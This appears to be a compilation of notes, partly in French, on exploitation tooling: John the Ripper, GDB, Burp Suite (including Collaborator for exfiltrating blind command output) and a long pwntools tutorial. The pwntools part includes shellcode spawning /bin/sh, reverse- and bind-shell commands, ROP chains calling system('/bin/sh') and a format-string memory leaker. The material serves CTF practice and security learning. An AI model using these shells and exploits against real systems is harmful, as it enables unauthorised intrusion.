john zip.hashes
# or
john --wordlist=wordlist.txt zip.hashes
GDB
Install
# GDB client
$ sudo apt install gdb
# Server GDB
$ sudo apt install gdbserver
Plugins
| Plugins | Description |
|---|---|
| pwndbg | Dedie aux développeurs de logiciels de bas niveau, aux pirates informatiques, aux ingénieurs inverseurs et aux développeurs d'exploits. |
Scenario
Burp Suite
Burp Suite est un logiciel spécialisé pour les audits de sécurité web (pentests web). Il est développé par l’entreprise PortSwigger qui est une référence dans le monde de la sécurité web.
Burp Suite, appelé le plus souvent seulement Burp, est optimisé et pensé pour répondre aux besoins des pentesters professionnels et est d’ailleurs l’outil le plus utilisé dans son domaine. C’est un outil modulaire permettant de réaliser à la fois des tests manuels et automatisés qui vont aider le pentester à identifier efficacement des vulnérabilités sur les applications web.
Dans la suite de cet article, nous détaillerons les différentes fonctionnalités de Burp ainsi que les extensions clés.
Ref: Introduction à Burp, l’outil dédié à la sécurité des plateformes web
Foncions principales
Le Proxy
La fonctionnalité principale de Burp Suite est le Proxy. Le Proxy va permettre à Burp de jouer le rôle d’intermédiaire entre le client (navigateur web) et le serveur hébergeant l’application web.
En se plaçant entre ces deux composants, Burp va pouvoir intercepter l’intégralité des échanges et des requêtes réalisés entre le navigateur web et le serveur. Le pentester va donc pouvoir analyser en détail les requêtes, et s’il le veut, les modifier à la volée.
Pour modifier à la volée les requêtes, le Proxy permet d’intercepter les requêtes une par une et de laisser le choix au pentester de les laisser passer ou de les rejeter. S’il les laisse passer, il peut donc les modifier à la volée avant de les transmettre au serveur.
Sinon, le Proxy permet également de visualiser l’historique des requêtes en direct sans avoir à les transmettre manuellement au serveur. C’est d’ailleurs le mode le plus utilisé du Proxy.
Le Repeater
Le Repeater est le module qui va permettre de rejouer des requêtes à volonté. Comme son nom l’indique, le pentester va pouvoir répéter des requêtes et les modifier à sa guise avant de les envoyer au serveur.
Il pourra ainsi analyser la réponse du serveur en fonction de ce qu’il a modifié. Le Repeater est souvent utilisé pour identifier manuellement des failles et les exploiter.
L’intruder, l’outil d’intrusion
L’Intruder est un outil puissant qui va permettre d’automatiser l’envoi d’une requête comportant un payload personnalisé. Grâce à l’Intruder on va par exemple pouvoir automatiquement incrémenter une valeur et envoyer chaque incrémentation au serveur. L’Intruder va permettre au pentester d’automatiser des tâches fastidieuses ou impossibles à réaliser manuellement comme l’envoi de plusieurs milliers de requêtes. Les possibilités d’utilisation de l’Intruder sont quasi-infinies et permettent d’ajouter plusieurs payloads de même ou de différents types.
L’Intruder comporte un onglet « Positions » où le pentester pourra définir la position du payload dans la requête. Ensuite il pourra choisir le type de payload à injecter dans l’onglet « Payloads ».
Le scanner de vulnérabilités
Le Scanner est une des fonctionnalités les plus utiles de l’édition « Professional » de Burp Suite. En effet, le Scanner va permettre d’effectuer automatiquement, des scans passifs sur l’intégralité des requêtes entre le client et le serveur et des scans actifs sur les requêtes choisies par le pentester.
Un scan passif est un type de scan où le trafic va être analysé et qui va remonter des vulnérabilités si des paternes sont reconnus par le scanner. Par exemple le Scanner de Burp va nous remonter des informations s’il aperçoit des adresses email dans les réponses serveurs. Lors des scans passifs, le Scanner ne va pas modifier les requêtes.
À l’inverse, un scan actif est un type de scan où le scanner va délibérément modifier la requête. Le Scanner va injecter des payloads malveillants dans une ou plusieurs requêtes choisies par le pentester et va analyser la réponse serveur. Si le scanner identifie un paterne qui est la conséquence directe du payload injecté, alors il nous remontera une vulnérabilité plus ou moins critique.
Le Scanner de Burp est donc un outil incontournable pour le pentester qui gagnera en temps et en efficacité.
Pour lancer un scan actif, il suffit d’envoyer la requête dans l’Intruder, spécifier la position du payload comme pour une utilisation classique de l’Intruder, faire un clique-droit sur la requête et appuyer sur « Do active scan ».
Collaborator
Le Collaborator de Burp va permettre au pentester d’avoir une plateforme tierce sur Internet, accessible depuis n’importe où. Le Collaborator va servir notamment à exploiter des failles qui ne retournent aucune information dans la réponse serveur permettant de valider la faille.
On va parler de failles qui ne retournent aucunes erreurs, aucunes réponses anormales ou qui ne causent aucuns délais.
Par exemple, si la faille en question permet d’exécuter des commandes système sur le serveur mais que le résultat de la commande n’est pas visualisable dans la réponse serveur, on pourra utiliser le Collaborator pour exfiltrer le résultat de la commande.
Configuration du proxy
Permet d'intercepter et de rejouer des requetes
Sur le browser
- Installer le plugins
FoxyProxy - Plugin::
FoxyProxy-> Widget::Options-> Ongle::Proxies - Buttons::
Add
| Title | BurpSuite |
| Type | HTTP |
| Hostname | 127.0.0.1 |
| Port | 8080 |
- Plug::
FoxyProxy-> Widget::BurpSuite
NOTE Si il y a TLS (HTTPS), allez a l'URL http://burp/cert et en enregister le certificat de BurpSuite en tant que certificat d'Authorities, avec l'option Trust this CA to identify websites
Sur BurpSuite
- Onglet::
Proxy-> button::Intercept ON
Pour rejouer => button::Forward
▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄ ▄▄▄▄
██▀▀▀▀█▄ ▀▀▀██▀▀▀ ▀▀██
██ ██ ██ ██ ██▄████▄ ██ ▄████▄ ▄████▄ ██ ▄▄█████▄
██████▀ ▀█ ██ █▀ ██▀ ██ ██ ██▀ ▀██ ██▀ ▀██ ██ ██▄▄▄▄ ▀
██ ██▄██▄██ ██ ██ ██ ██ ██ ██ ██ ██ ▀▀▀▀██▄
██ ▀██ ██▀ ██ ██ ██ ▀██▄▄██▀ ▀██▄▄██▀ ██▄▄▄ █▄▄▄▄▄██
▀▀ ▀▀ ▀▀ ▀▀ ▀▀ ▀▀ ▀▀▀▀ ▀▀▀▀ ▀▀▀▀ ▀▀▀▀▀▀
What's pwntools?
- CTF framework and exploit development library
- make exploit writing as simple as possible
- https://pwntools.com & https://docs.pwntools.com
- grown from collection of tools by pwnies.dk and Samurai in 2012
from pwn import *
context(arch = 'i386', os = 'linux')
r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
Usage modes
| pwn | pwnlib |
|---|---|
| toolbox | library |
| changes terminal settings | does nothing special |
| parses special CLI arguments |
Basics: Tubes
-
Write once, run against everything
-
Common interface for interacting with data
-
process,remote,ssh,serialtube
from pwn import *
io = process(['echo', 'hi'])
io.recvline()
[x] Starting local process '/usr/bin/echo'
[+] Starting local process '/usr/bin/echo': pid 17261
[*] Process '/usr/bin/echo' stopped with exit code 0 (pid 17261)
b'hi\n'
Basics: Receiving
io = process(['ls', '-l', '/'])
io.recvline()
[x] Starting local process '/usr/bin/ls'
[+] Starting local process '/usr/bin/ls': pid 17262
[*] Process '/usr/bin/ls' stopped with exit code 0 (pid 17262)
b'total 876\n'
io.recvn(10)
b'drwxr-xr-x'
io.recvuntil(b'bin')
b' 3 root root 4096 Mar 14 2023 Docker\nlrwxrwxrwx 1 root root 7 Apr 23 2020 bin'
io.recvregex(br'\s+([0-9]+)', capture=True).group(1)
b'2'
# io.recvline().decode()
io.recvlineS()
' root root 4096 Apr 23 2020 boot\n'
io.recvpred(lambda p: p.count(b'o') == 2)
b'drwx------ 2 roo'
# unpack(io.recvn(context.bytes))
hex(io.unpack())
'0x72202074'
# u64(io.recvn(8))
hex(io.u64())
'0x3420202020746f6f'
io.recvline_startswith(b'lrwxrwxrwx')
b'lrwxrwxrwx 1 root root 7 Apr 23 2020 lib -> usr/lib'
Basics: Sending
io = process('cat')
io.send(b'CTF0')
io.recv()
[x] Starting local process '/usr/bin/cat'
[+] Starting local process '/usr/bin/cat': pid 17263
b'CTF0'
io.sendline(b'thing')
io.recv()
b'thing\n'
io.newline = b'\r\n'
io.sendline(b'thong')
io.recv()
b'thong\r\n'
Basics: Sending
io.send(b'stuff serving as marker')
# recvuntil + send
io.sendafter(b'marker', b'behind marker') # sendlineafter
b'stuff serving as marker'
# send + recvuntil
io.sendthen(b'back', b'echo back all of this please') # sendlinethen
b'behind markerecho back'
# io.send(p64(0xdeadf00dcafebabe))
io.p64(0xdeadf00dcafebabe)
# io.send(flat({4: b'hi'}))
io.flat({4: b'hi'})
Remote interaction
Connecting somewhere
# TCP
tcp4 = remote('127.0.0.1', 1337)
# UDP
udp4 = remote('127.0.0.1', 1337, typ='udp')
# TLS
tls4 = remote('google.com', 443, ssl=True)
# IPv6
tcp6 = remote('google.com', 80, fam='ipv6')
Remote interaction
Listen servers
# Wait for single connection
client = listen(1337).wait_for_connection()
# Port forwarding
listen(1337).wait_for_connection().connect_both(remote('google.com', 80))
# Reverse shell
listen(1337).spawn_process('/bin/sh')
# Accept multiple connections
s = server(1337)
client = s.next_connection()
# With a prompt
cb = lambda io: io.sendline(b'Welcome!')
s = server(1337, callback=cb)
client = s.next_connection()
Custom transport layer
- easy to implement own socket types on top of
tube - implement
recv_rawandsend_raw
t = tube()
t.recv_raw = lambda n: b'lots of data'
t.send_raw = lambda d: print(f'{d!r}')
print(t.recvuntil(b'of'))
t.sendline(b'hi')
b'lots of'
b'hi\n'
Random helpers
# Hex encode / decode
unhex(enhex(b'AAAA')) # bytes.fromhex(b'AAAA'.hex())
b'AAAA'
# Base64 encode / decode
b64d(b64e(b'BBBB')) # import base64; base64.b64decode(base64.encode(b'BBBB'))
b'BBBB'
# URL encoding
urlencode('?thing=asd') # urldecode as well
'%3f%74%68%69%6e%67%3d%61%73%64'
write('./thing', b'important') # open('./thing', 'w').write(b'important')
read('./thing') # open('./thing', 'rb').read()
b'important'
Random helpers
# Evaluate python expression safely
safeeval.expr('1 + 1')
2
# Evaluate python expression using defined variables
safeeval.values('CTF + 20', {'CTF': 22})
42
# Random string
randoms(16)
'xfpmtktypmghasyi'
# XOR multiple things
xor(b'ABCDABCD', 5, b'XYZ')
b'\x1c\x1e\x1c\x19\x1d\x1d\x1e\x18'
Context
- thread-safe nesting context
- controls default values of lots of modules
adb, adb_host, adb_port, arch, aslr, binary, bits, buffer_size, bytes, cache_dir, cache_dir_base, cyclic_alphabet, cyclic_size, delete_corefiles, device, endian, gdbinit, kernel, log_console, log_file, log_level, newline, noptrace, os, proxy, quiet, randomize, rename_corefiles, signed, silent, terminal, timeout, verbose
context.arch = 'amd64'
context.log_level = 'error'
context.update(arch='amd64', os='linux')
# Infer from binary
context.clear()
context.binary = './chall'
with context.quiet:
log.info('hi')
with context.local(log_level='info'):
log.debug('ho')
[*] '/mnt/c/Users/Jannik/Downloads/ctfs/pwntools_tips/chall'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
SHSTK: Enabled
IBT: Enabled
Context
- most API accept context settings through kwargs
print(context.os)
@LocalContext
def myfunc():
print(context.os)
myfunc(os='windows')
print(context.os)
linux
windows
linux
Exploit template
- Generate exploit boilerplate code
- Switch between remote and local target
./doit.py./doit.py LOCAL
- Start a debug session
./doit.py LOCAL GDB
pwn template --host the.c.tf --port 1337 ./chall > doit.py
- new: omit
./challfor auto-detection
pwn template --host the.c.tf --port 1337 --libc libc.so.6 ./chall > doit.py
Running the exploit
- Control
contextthrough arguments:./doit.py NOASLR LOG_LEVEL=error
- Control
contextthrough environment variables:PWNLIB_NOASLR=1 PWNLIB_LOG_LEVEL=error ./exploit.py
- Access uppercase arguments through
args./doit.py TEAM=ctf0->args.TEAM == 'ctf0'
- Control logging
doit.py LOG_LEVEL=warn->context.log_level = 'warn'doit.py DEBUG->context.log_level = 'debug'doit.py SILENT->context.log_level = 'error'doit.py STDERR-> sends logging to stderr instead of stdoutdoit.py LOG_FILE=./log.txt-> write log to file
- Run with local system libc
./doit.py LOCAL LOCAL_LIBC
ELF
exe = ELF('./chall')
hex(exe.sym.main) # exe.symbols['main']
'0x401210'
exe.address = 0x99000000
hex(exe.sym.main)
'0x99001210'
io = exe.process()
io.close()
[x] Starting local process '/mnt/c/Users/Jannik/Downloads/ctfs/pwntools_tips/chall'
[+] Starting local process '/mnt/c/Users/Jannik/Downloads/ctfs/pwntools_tips/chall': pid 17264
[*] Stopped process '/mnt/c/Users/Jannik/Downloads/ctfs/pwntools_tips/chall' (pid 17264)
ELF - Debugging
# Start in debugger (using gdbserver)
io = exe.debug() # gdb.debug(exe.path)
# Attach to running process
io = exe.process()
gdb.attach(io)
# Attach to local listening process
io = remote('localhost', 1337)
gdb.attach(io)
# Interact with debugger
with exe.debug(api=True) as io:
io.gdb.Breakpoint('puts', temporary=True)
io.gdb.continue_and_wait()
text_ptr = io.gdb.parse_and_eval('$rdi').cast(gdb.lookup_type('int'))
text = io.gdb.selected_inferior().read_memory(text_ptr, 20)
print(text)
io.gdb.quit()
ELF - coredumps
exe = ELF('./chall')
io = exe.process()
# crash the process
io.sendline(cyclic(256))
# wait until the process terminated
io.poll()
# lookup core dump
core = io.corefile
# access value of rip in core file
payload = flat({
cyclic_find(core.rip): exe.symbols.win
})
# core.fault_addr or core.signal available
io = exe.process()
io.sendline(payload)
io.interactive()
ELF - libc
context.clear()
context.timeout = 1
context.binary = './chall'
libc = exe.libc
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
SHSTK: Enabled
IBT: Enabled
# Find return address from `main`
hex(libc.libc_start_main_return)
0x24083
LIBCDB
- interface with https://libc.rip/ and https://gitlab.com/libcdb/libcdb
libcdbmodule as well as command line tool
$ libcdb file /lib/x86_64-linux-gnu/libc.so.6
[*] libc.so.6
Version: 2.31
BuildID: 1878e6b475720c7c51969e69ab2d276fae6d1dee
MD5: 5898fac5d2680d0d8fefdadd632b7188
SHA1: 1430c57bf7ca6bd7f84a11c2cb7580fc39da07f5
SHA256: 80378c2017456829f32645e6a8f33b4c40c8efa87db7e8c931a229afa7bf6712
Symbols:
__libc_start_main_ret = 0x24083
dup2 = 0x10e8c0
printf = 0x61c90
puts = 0x84420
read = 0x10dfc0
str_bin_sh = 0x1b45bd
system = 0x52290
write = 0x10e060
LIBCDB commandline
- lookup by buildid
libcdb hash 1878e6b475720c7c51969e69ab2d276fae6d1dee
- lookup by id
libcdb hash -t id libc6_2.31-0ubuntu9.9_amd64
- lookup by leaked offsets
libcdb lookup printf c90 system 0x52290
- download matching libc
libcdb hash -t id --download-libc libc6_2.31-0ubuntu9.9_amd64
- unstrip / add back debug symbols
libcdb file --unstrip libc.so.6
LIBCDB module
# Download libc and return path to it
libcdb.search_by_build_id('1878e6b475720c7c51969e69ab2d276fae6d1dee', unstrip=True)
# Unstrip any binary in place
libcdb.unstrip_libc('./libc.so.6')
Lookup by leaked function offsets
- with interactive prompt on multiple matches
libc = ELF(libcdb.search_by_symbol_offsets({'puts': puts_leak, 'printf': printf_leak}))
Assembly / Disassembly
- shortcut for binutils
- cross-architecture
- shellcraft - shellcode templates
asm('mov rax, 1; syscall')
b'H\xc7\xc0\x01\x00\x00\x00\x0f\x05'
asm('push 0x41414141; lea edi, [esp+0x10]', os='linux', arch='i386', bits='32')
b'hAAAA\x8d|$\x10'
asm('ldr x1, [x2]', arch='arm64')
b'A\x00@\xf9'
print(disasm(asm('mov rax, 1; syscall')))
0: 48 c7 c0 01 00 00 00 mov rax, 0x1
7: 0f 05 syscall
Shellcraft
- (mostly) null-byte and newline free shellcode
- generated dynamically for real values at runtime
- uses mako template engine
print(shellcraft.linux.dupio())
/* dup() file descriptor rbp into stdin/stdout/stderr */
mov rdi, rbp
push 2
pop rsi
loop_1:
/* dup2(fd='rdi', fd2='rsi') */
/* setregs noop */
/* call dup2() */
push SYS_dup2 /* 0x21 */
pop rax
syscall
dec rsi
jns loop_1
ROP
- based on ROPgadget
exe = ELF('./chall', checksec=False)
rop = ROP(exe)
# set registers
rop.rdi = 5
# multiple at once
rop(rsi=0x41414141, r15=0xcafe)
print(rop.dump())
[*] Loading gadgets for '/mnt/c/Users/Jannik/Downloads/ctfs/pwntools_tips/chall'
0x0000: 0x4013a3 pop rdi; ret
0x0008: 0x5
0x0010: 0x4013a1 pop rsi; pop r15; ret
0x0018: 0x41414141
0x0020: 0xcafe
# Lookup gadgets as attributes
rop.rsi_r15
Gadget(0x4013a1, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18)
ROP
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
rop = ROP([exe, libc])
# manual call
rop.call(0xaaaaaa, [1234, 5678])
# shorthand
rop.system(next(exe.libc.search(b'/bin/sh')))
print(rop.dump())
[*] Loading gadgets for '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
0x0000: 0x4013a3 pop rdi; ret
0x0008: 0x4d2 [arg0] rdi = 1234
0x0010: 0x2601f pop rsi; ret
0x0018: 0x162e [arg1] rsi = 5678
0x0020: 0xaaaaaa
0x0028: 0x4013a3 pop rdi; ret
0x0030: 0x1b45bd [arg0] rdi = 1787325
0x0038: 0x52290 system
Memory leaker
pwnlib.memleak.MemLeak(f, search_range=20, reraise=True, relative=False)
- Caches leaked data
- Tries surrounding address if leak failed
@MemLeak
def leaker(addr):
to_leak = p64(addr)
if b'\n' in to_leak:
return None
io.sendlineafter(b'> ', b'%08$7xAA' + to_leak)
return unhex(io.recvuntil(b'AA', drop=True))
# leak from starting address
leaker(0x4000102)
# leak an address range
leaker[0x4000102:0x4000112]
# unpack right away
leaker.u64(exe.got.puts)

PWNing Meetup #2

PwnTools
Installation
$ pip3 install pwntools
Exploit de code
$ pwn asm "jmp esp"
$ pwn asm -i <filepath>
Check secu
$ pwn checksec <executable>
[*] '<executable>'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x400000)
RWX: Has RWX segments
Motif (cyclic)
Obtenez un motif
$ pwn cyclic 30
aaaabaaacaaadaaaeaaafaaagaaaha
$ echo "prefix_$(cyclic 13)_suffix"
prefix_aaaabaaacaaad_suffix
Debug
Attacher GDB à un processus
# Start and attach to binary
$ pwn debug --exec /bin/bash
# Attach to PPID
$ pwn debug --pid 1234
# Attach to current `bash`
$ pwn debug --process bash
Désactiver nx
Désactive nx d'un binaire
$ pwn disablenx <filepath>
Pwn disasm
Désassemble les opcodes hexadécimaux
$ pwn disasm ffe4
Peut sélectionner:
- contexte (16,32,64,linux,windows...)
- adresse de base
- couleur (par défaut)/pas de couleur
Pwn elfdiff
Affiche les différences entre 2 fichiers
$ pwn elfdiff <file1> <file2>
Pwn hex
Obtenez la représentation hexadécimale et inverse
$ pwn hex hola #Get hex of "hola" ascii
686f6c61
$ pwn unhex 686f6c61
hola
Pwn phd
Obtenir le hexdump
$ pwn phd <file>
Peut sélectionner:
- Nombre d'octets à afficher
- Nombre d'octets par ligne à mettre en évidence
- Ignorer les octets au début
Pwn shellcraft
Obtenir des shellcodes
#List shellcodes
$ pwn shellcraft -l
#Shellcode with amd in the name
$ pwn shellcraft -l amd
#Create in C and run
$ pwn shellcraft -f hex amd64.linux.sh
#Run to test. Get shell
$ pwn shellcraft -r amd64.linux.sh
#Bind SH to port
$ pwn shellcraft .r amd64.linux.bindsh 9095
Peut sélectionner:
- shellcode et arguments pour le shellcode
- Fichier de sortie
- Format de sortie
- déboguer (attacher dbg au shellcode)
- avant (piéger le débogage avant le code)
- après
- éviter d'utiliser des opcodes (par défaut: non nul et nouvelle ligne)
- Exécuter le shellcode
- Couleur/sans couleur
- lister les appels système
- lister les shellcodes possibles
- Générer un ELF en tant que bibliothèque partagée
Modèle Pwn
Obtenez un modèle Python
$ pwn template
...
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './path/to/binary'
# Many built-in settings can be controlled on the command-line and show up
# in "args". For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.GDB:
return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())
#===========================================================
# EXPLOIT GOES HERE
#===========================================================
io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
# 32: 0xdeadbeef,
# 'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
io.interactive()
Mise à jour
Pour mettre à jour pwntools
$ pwn update
Best practice
Start pwntools then waiting for start gdb:
from pwn import *
local_file = './some_example_elf'
p = gdb.debug(local_file)
# ... the rest of your exploit
NO_INTERACTION = True
if NO_INTERACTION:
# For waiting GDB manual starting but close interactive action
p.wait()
else:
# For waiting GDB manual starting and open interactive action
p.interactive()
# [+] Starting local process '/challenge/some_example_elf': pid 226
# [*] Paused (press any to continue)
- Start
GDB
gdb -p <PID> # 226
Table of Contents
Assembly
Pwntools makes it very easy to perform assembly in almost any architecture, and comes with a wide variety of canned-but-customizable shellcode ready to go out-of-the-box.
In the walkthrough directory, there are several longer shellcode tutorials. This page gives you the basics.
Basic Assembly
The most basic example, is to convert assembly into shellcode.
from pwn import *
print repr(asm('xor edi, edi'))
# '1\xff'
print enhex(asm('xor edi, edi'))
# 31ff
Canned assembly (shellcraft)
The shellcraft module gives you pre-canned assembly. It is generally customizable. The easiest way to find out which shellcraft templates exist is to look at the documentation on RTD.
from pwn import *
help(shellcraft.sh)
print '---'
print shellcraft.sh()
print '---'
print enhex(asm(shellcraft.sh()))
Help on function sh in module pwnlib.shellcraft.internal:
sh()
Execute /bin/sh
---
/* push '/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
/* call execve('esp', 0, 0) */
push (SYS_execve) /* 0xb */
pop eax
mov ebx, esp
xor ecx, ecx
cdq /* edx=0 */
int 0x80
---
6a68682f2f2f73682f62696e6a0b5889e331c999cd80
Command-line Tools
There are three command-line tools for interacting with assembly:
asmdisasmshellcraft
asm
The asm tool does what it says on the tin. It provides several options for formatting the output. When the output is a terminal, it defaults to hex-encoded.
$ asm nop
90
When the output is anything else, it writes the raw data.
$ asm nop | xxd
0000000: 90 .
It also takes data on stdin if no instructions are provided on the command line.
$ echo 'push ebx; pop edi' | asm
535f
Finally, it supports a few different options for specifying the output format, via the --format option. Supported arguments are raw, hex, string, and elf.
$ asm --format=elf 'int3' > ./int3
$ ./halt
Trace/breakpoint trap (core dumped)
disasm
Disasm is the opposite of asm.
$ disasm cd80
0: cd 80 int 0x80
$ asm nop | disasm
0: 90 nop
shellcraft
The shellcraft command is the command-line interface to the internal shellcraft module. On the command-line, the full context must be specified, in the order of arch.os.template.
$ shellcraft i386.linux.sh
6a68682f2f2f73682f62696e6a0b5889e331c999cd80
Foreign Architectures
Assembling for a foreign architecture requires that you have an appropriate version of binutils installed. You should see installing.md for more information on this. The only change that is necessary is to set the architecture in the global context variable. You can see more information about context in context.md.
from pwn import *
context.arch = 'arm'
print repr(asm('mov r0, r1'))
# '\x01\x00\xa0\xe1'
print enhex(asm('mov r0, r1'))
# 0100a0e1
Canned Assembly
The shellcraft module automatically switches to the appropriate architecture.
from pwn import *
context.arch = 'arm'
print shellcraft.sh()
print enhex(asm(shellcraft.sh()))
adr r0, bin_sh
mov r2, #0
mov r1, r2
svc SYS_execve
bin_sh: .asciz "/bin/sh"
08008fe20020a0e30210a0e10b0000ef2f62696e2f736800
Command-line Tools
You can also use the command line to assemble foreign-arch shellcode, by using the --context command-line option.
$ asm --context=arm 'mov r0, r1'
0100a0e1
$ shellcraft arm.linux.sh
08008fe20020a0e30210a0e10b0000ef2f62696e2f736800
Table of Contents
- Background
- Loading an ELF
- Inspecting Gadgets
- Viewing All Gadgets
- Adding Raw Data
- Dumping ROP stacks
- Extracting Raw Bytes
- Calling Functions Magically
- Multiple ELFs
- Getting a shell
Background
Return-oriented programming (ROP) is a technique for bypassing NX (no-execute, also known as Data Execution Prevention (DEP)).
Pwntools has several features that make ROP exploitation simpler, but only works on i386 and amd64 architectures.
Loading an ELF
To create a ROP object, just pass it an ELF file.
elf = ELF('/bin/sh')
rop = ROP(elf)
This will automatically load the binary, and extract most simple gadgets from it. For example, if you want to load the rbx register:
rop.rbx
# Gadget(0x5fd5, ['pop rbx', 'ret'], ['rbx'], 0x8)
Fixing Addresses
Here we can see the address of the gadget, the contents of its disassembly, what register it loads, and by how much the stack is adjusted when the gadget is executed.
Since in our example, /bin/sh is position-independent (i.e. uses ASLR), we can adjust the load address on the ELF object first.
elf.address = 0xff000000
rop = ROP(elf)
rop.rbx
# Gadget(0xff005fd5, ['pop rbx', 'ret'], ['rbx'], 0x8)
Inspecting Gadgets
You can ask the ROP object how to load any register you want, through magic accessors. We used rbx above, but we can also look for other registers.
rop.rbx
# Gadget(0xff005fd5, ['pop rbx', 'ret'], ['rbx'], 0x8)
If the register cannot be loaded, the return value is None. In our example, there are no pop rcx; ret gadgets for example.
rop.rcx
# None
Viewing All Gadgets
Pwntools intentionally excludes most non-trivial gadgets, but you can see a list of what it has loaded by looking at the ROP.gadgets property, which maps the address of a gadget to the gadget itself.
rop.gadgets
# {4278225723: Gadget(0xff008b3b, ['add esp, 0x10', 'pop rbx', 'pop rbp', 'pop r12', 'ret'], ['rbx', 'rbp', 'r12'], 0x20),
# 4278278088: Gadget(0xff0157c8, ['add esp, 0x130', 'pop rbp', 'ret'], ['rbp'], 0x138),
# 4278284789: Gadget(0xff0171f5, ['add esp, 0x138', 'pop rbx', 'pop rbp', 'ret'], ['rbx', 'rbp'], 0x144),
# 4278272966: Gadget(0xff0143c6, ['add esp, 0x18', 'ret'], [], 0x1c),
# 4278239612: Gadget(0xff00c17c, ['add esp, 0x20', 'pop rbx', 'pop rbp', 'pop r12', 'ret'], ['rbx', 'rbp', 'r12'], 0x30),
# 4278259611: Gadget(0xff010f9b, ['add esp, 0x28', 'pop rbp', 'pop r12', 'ret'], ['rbp', 'r12'], 0x34),
# ...
# 4278216828: Gadget(0xff00687c, ['pop rsp', 'pop r13', 'ret'], ['rsp', 'r13'], 0xc),
# 4278214225: Gadget(0xff005e51, ['pop rsp', 'ret'], ['rsp'], 0x8),
# 4278210586: Gadget(0xff00501a, ['ret'], [], 0x4)}
Really Viewing ALL Gadgets
Pwntools ROP filters out non-trivial gadgets, so if it doesn't have something you want, we recommend using ROPGadget to inspect the binary.
Adding Raw Data
In order to add raw data to the ROP stack, simply call ROP.raw().
rop.raw(0xdeadbeef)
rop.raw(0xcafebabe)
rop.raw('asdf')
Dumping ROP stacks
Now that we have some gadgets, let's look at what's on the ROP stack:
print(rop.dump())
# 0x0000: 0xdeadbeef
# 0x0004: 0xcafebabe
# 0x0008: b'asdf' 'asdf'
Extracting the Raw Bytes
Now that we have a ROP stack, we want the raw bytes out of it. Use the bytes() method to do this.
print(hexdump(bytes(rop)))
# 00000000 ef be ad de be ba fe ca 61 73 64 66 │····│····│asdf│
# 0000000c
Calling Functions Magically
The real power of Pwntools' ROP tooling is the ability to invoke arbitrary functions, either via magic accessors or via the ROP.call() routine.
elf = ELF('/bin/sh')
rop = ROP(elf)
rop.call(0xdeadbeef, [0, 1])
print(rop.dump())
# 0x0000: 0xdeadbeef 0xdeadbeef(0, 1, 2, 3)
# 0x0004: b'baaa' <return address>
# 0x0008: 0x0 arg0
# 0x000c: 0x1 arg1
Notice here that it's using a 32-bit ABI, which is not correct. We can also do ROP against 64-bit binaries, but we need to set context.arch accordingly. We can use context.binary to do this automagically.
context.binary = elf = ELF('/bin/sh')
rop = ROP(elf)
rop.call(0xdeadbeef, [0, 1])
print(rop.dump())
# 0x0000: 0x61aa pop rdi; ret
# 0x0008: 0x0 [arg0] rdi = 0
# 0x0010: 0x5f73 pop rsi; ret
# 0x0018: 0x1 [arg1] rsi = 1
# 0x0020: 0xdeadbeef
Calling Functions by Name
If your library has a function you want to call in its GOT/PLT, or there are symbols for the binary, you can invoke function names directly.
context.binary = elf = ELF('/bin/sh')
rop = ROP(elf)
rop.execve(0xdeadbeef)
print(rop.dump())
# 0x0000: 0x61aa pop rdi; ret
# 0x0008: 0xdeadbeef [arg0] rdi = 3735928559
# 0x0010: 0x5824 execve
Multiple ELFs
Generally, more than one ELF is available in the address space of your process at a time. Let's look at an example that uses /bin/sh as well as its libc. Originally, we looked at rop.rcx and it was None, since there is no pop rcx; ret gadget in bash. However, now we have all of the gadgets from libc available as well.
context.binary = elf = ELF('/bin/sh')
libc = elf.libc
elf.address = 0xAA000000
libc.address = 0xBB000000
rop.rax
# Gadget(0xaa00eb87, ['pop rax', 'ret'], ['rax'], 0x10)
rop.rbx
# Gadget(0xaa005fd5, ['pop rbx', 'ret'], ['rbx'], 0x10)
rop.rcx
# Gadget(0xbb09f822, ['pop rcx', 'ret'], ['rcx'], 0x10)
rop.rdx
# Gadget(0xbb117960, ['pop rdx', 'add rsp, 0x38', 'ret'], ['rdx'], 0x48)
Notice how the rax and rbx gadgets are in the main binary (0xAA...) while the second two are in libc (0xBB...).
Now let's do a more complex call!
rop.memcpy(0xaaaaaaaa, 0xbbbbbbbb, 0xcccccccc)
print(rop.dump())
# 0x0000: 0xbb11c1e1 pop rdx; pop r12; ret
# 0x0008: 0xcccccccc [arg2] rdx = 3435973836
# 0x0010: b'eaaafaaa' <pad r12>
# 0x0018: 0xaa0061aa pop rdi; ret
# 0x0020: 0xaaaaaaaa [arg0] rdi = 2863311530
# 0x0028: 0xaa005f73 pop rsi; ret
# 0x0030: 0xbbbbbbbb [arg1] rsi = 3149642683
# 0x0038: 0xaa0058a4 memcpy
Note that Pwntools was able to use the pop rdx; pop r12; ret gadget, and account for the extra value needed on the stack. Also note that the symbolic value of each item is listen in rop.dump(). For example, it shows that we are settings rdx=3435973836.
Getting a shell
Sometimes, getting a shell can be pretty easy! Let's call execve directly, and find an instance of "/bin/sh\x00" to pass as the first argument from somewhere within memory.
